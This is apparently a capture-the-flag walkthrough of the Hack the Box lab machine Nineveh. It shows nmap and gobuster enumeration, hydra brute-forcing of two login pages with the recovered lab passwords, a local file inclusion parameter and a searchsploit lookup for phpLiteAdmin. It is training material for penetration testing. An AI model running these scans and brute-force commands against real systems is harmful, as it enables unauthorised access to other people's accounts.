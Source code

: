 # Hack the Box - Nineveh


## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Local File Inclusion(LFI)
  - URL: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234561596-3375a5a2-0015-448b-807c-2a5fb42aca58.png)
![image](https://user-images.githubusercontent.com/83878909/234561294-8c2c1a9c-db43-4dc6-baa3-9c53d31d8287.png)


## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
